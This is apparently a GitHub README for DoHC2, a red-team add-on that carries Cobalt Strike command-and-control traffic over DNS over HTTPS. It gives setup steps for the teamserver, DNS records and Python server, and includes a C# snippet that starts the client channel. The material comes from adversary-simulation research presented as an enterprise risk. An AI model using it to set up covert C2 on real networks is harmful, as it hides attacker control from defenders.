 # DoHC2

DoHC2 allows the ExternalC2 library from Ryan Hanson (https://github.com/ryhanson/ExternalC2) to be
leveraged for command and control (C2) via DNS over HTTPS (DoH). This is built for the popular 
Adversary Simulation and Red Team Operations Software Cobalt Strike (https://www.cobaltstrike.com).

## Presentation

This project was released on October 23rd 2018 at [Mitre ATT&CKcon](https://www.mitre.org/attackcon). 

Slides:
[Playing Devil’s Advocate to Security Initiatives with ATT&CK](Mitre_Attackcon_Playing_Devils_Advocate_With_Attack_1.0.pdf)

Blog Artile:
[DOH! DNS Over HTTPS Poses Possible Risks to Enterprises](https://www.trustwave.com/Resources/SpiderLabs-Blog/DOH!-DNS-Over-HTTPS-Poses-Possible-Risks-to-Enterprises/)

## Diagram

![Screenshot](dohc2_diagram.png)

## Usage

1. Install and launch Cobaltstrike teamserver.
2. Launch a beacon_http/beacon_https listener - *Gotcha* This can be firewalled off but you need this for External C2 to work.
3. Load in script 'external_c2.cna' to Start ExternalC2 port 2222 (Firewall off).
4. Install dependencies for python3 server.
5. Allow port 53/udp to Internet (or to the DoH provider IP ranges).
6. Create an A record on your domain to point to the teamserver/DNS server IP i.e. [A] entry.example.org -> 000.000.000.000
7. Create an NS record to point to the A record for send channel (INPUTDOMAIN) i.e. [NS] send.example.org -> entry.example.org.
8. Create an NS record to point to the A record for receive channel (OUTPUTDOMAIN) i.e. [NS] receive.example.org -> entry.example.org.
9. Change INPUTDOMAIN and OUTPUTDOMAIN in DoHC2.py. Change encryption key/IV - this is used to encrypt the path from Teamserver-->Client Only (Encrypts Stager). 
10. Launch python3 DNS server.
11. Build ExternalC2 library. Change encryption key/IV in DoHChannel.cs to match python3 server. 
12. Configure and launch DoHC2() as below being sure to set INPUTDOMAIN, OUTPUTDOMAIN and a [DoH provider](https://github.com/curl/curl/wiki/DNS-over-HTTPS) in format 'https://resolver.example.org/dns-query'.

## Server

Python DNS server based on [ACME DNS Server](https://github.com/pawitp/acme-dns-server)

* This interfaces raw DNS to the Cobalt Strike Teamserver on 127.0.0.1:2222 by default.
* Change INPUTDOMAIN and OUTPUTDOMAIN to be hosts that are NS of the server's external IP:

```bash
	pip3 install -r requirements.txt
	sudo python3 ./DoHC2.py
```

## Library

[@ryhanson](https://twitter.com/ryhanson)'s [ExternalC2](https://github.com/ryhanson/ExternalC2) with the following additions:
* Channels> DoHChannel.cs - DoH implementation
* Channels > Base32.cs (from https://gist.github.com/BravoTango86/2a085185c3b9bd8383a1f956600e515f)
* DoHC2.cs - DoH channel set-up / wrapper
* Newtonsoft.JSON (https://www.newtonsoft.com/json) is added to project

## Example Client

* As with rest of ExternalC2 DoHC2 is COMVisible for JScript/DotNetToJS but this is a simple example to initiate it.
* The example client DoHC2Runner is a simple C# program to demo loading the library and setting it up as follows:

```csharp
	DoHC2 doh = new DoHC2();
	doh.Configure("<INPUTDOMAIN>","<OUTPUTDOMAIN>","<DoH Hostname i.e. https://dns.google.com/resolve or https://dns.example.org/dns-query");
	doh.Go();
```


## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

DoHC2

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [ExternalC2](https://github.com/ryhanson/ExternalC2)
* [ExternalC2 Spec](https://www.cobaltstrike.com/help-externalc2)
* [ACME DNS Server - (Python Server)](https://github.com/pawitp/acme-dns-server)
* [Python Shared File C2 - (Python Server)](https://github.com/outflanknl/external_c2)
* [Python External_C2_Framework - (Python Server)](https://github.com/Und3rf10w/external_c2_framework)
* [DNSExfiltrator - Python Server](https://github.com/Arno0x/DNSExfiltrator)